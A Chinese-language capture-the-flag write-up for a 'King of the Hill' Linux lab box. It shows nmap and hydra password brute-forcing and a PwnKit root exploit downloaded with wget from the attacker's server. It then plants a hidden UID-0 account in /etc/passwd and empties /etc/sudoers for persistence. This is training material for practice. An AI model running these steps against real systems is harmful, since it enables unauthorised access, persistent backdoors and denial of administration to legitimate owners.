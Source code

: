 # Koth Hackers - Linux

## 进攻

nmap 扫：

    nmap -sS 10.10.122.117 -sV

    21/tcp   open  ftp     vsftpd 2.0.8 or later
    22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
    9999/tcp open  abyss?

ftp有东西

披露了有用户存在弱密码

    rcampbell:Robert M. Campbell:Weak password
    gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password

爆破：

    hydra -l rcampbell -P /usr/share/wordlists/rockyou.txt 10.10.122.117 ftp

.

结果：

    [21][ftp] host: 10.10.122.117   login: rcampbell   password: lipgloss

gobuster爆破http目录

    /backdoor

robots.txt暴露用户名:

    plague

    hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.122.117 http-post-form "/api/user/login:username=plague&password=^PASS^:Incorrect credentials"

尝试爆破，爆了很久，爆不出

---

ftp的那两个弱密码爆出来了，拿去登ssh，成功

### CVE-2021-4034

    find / -type f -perm -u+s 2>/dev/null

发现pkexec

pkexec具有suid

尝试pwnkit利用。传入exp

    攻击机：python3 -m http.server 8000
    目标：wget http://10.14.39.48:8000/PwnKit
        chmod 777 ./PwnKit
        ./PwnKit

成功getroot

# 防守（漏洞修补）：

拿到root先把那两个弱密码的两个用户密码全改了。

openssl生成密码hash：

    openssl passwd -1 -salt hack 1q2w3e4r

    echo 'sugo:$1$hack$eu7wA.3faDMt9Z2srODT9/:0:0:root:/root:/bin/bash' >> /etc/passwd

留后手

把/etc/sudoers的内容全清

## Capabilitie清除

    getcap -r / 2>/dev/null

发现存在:

    /usr/bin/python3.6 = cap_setuid+ep
    /usr/bin/python3.6m = cap_setuid+ep

使用命令将其清除：

    setcap -r

## Pkexec suid

由于我们也是利用pwnkit进来的，所以我们需要把pkexec的suid清掉，以免其他选手以此getroot:

    chmod -u-s

---

## 愉快找flag...
